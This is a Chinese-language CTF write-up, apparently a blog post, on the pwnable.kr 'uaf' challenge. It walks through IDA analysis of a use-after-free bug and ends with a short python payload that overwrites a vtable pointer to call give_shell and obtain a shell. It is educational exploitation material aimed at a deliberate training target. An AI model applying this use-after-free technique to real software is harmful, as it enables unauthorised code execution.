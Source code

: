 ```yaml
---
layout:     post
title:      pwnable uaf
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>http://pwnable.kr/  
>  
>Problem Description:  
>Mommy, what is Use After Free bug?  
>Address:  
>ssh uaf@pwnable.kr -p2222 (pw:guest)   
<!-- more -->


### 0x00 IDA分析

直接看源码, case2 处能构造任意写

![](/assets/img/writeup/pwn/2017-08-28-pwnable-uaf/0x00.png)

Human 处的 give_shell 是本次 getshell 的 target

![](/assets/img/writeup/pwn/2017-08-28-pwnable-uaf/0x01.png)

copy 到本地

```
$ scp -P 2222 uaf@pwnable.kr:/home/uaf/uaf ~/toolchain/
```

拖到IDA分析, 先请求分配 0x18 bytes, 返回指针 v3

![](/assets/img/writeup/pwn/2017-08-28-pwnable-uaf/0x02.png)

v3 指向的 18 bytes 的开始 8 bytes 存放 give_shell 的地址

![](/assets/img/writeup/pwn/2017-08-28-pwnable-uaf/0x03.png)
![](/assets/img/writeup/pwn/2017-08-28-pwnable-uaf/0x04.png)

再看看 case1, fastcall +8 调用了 introduce

![](/assets/img/writeup/pwn/2017-08-28-pwnable-uaf/0x05.png)


### 0x01 exploit

利用 uaf 触发 case2 处任意写, 将 &give_shell - 8 写入 v3指针

```
$ python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'" > /tmp/give_shell
$ ./uaf 24 "/tmp/give_shell"
```

![](/assets/img/writeup/pwn/2017-08-28-pwnable-uaf/0x06.png)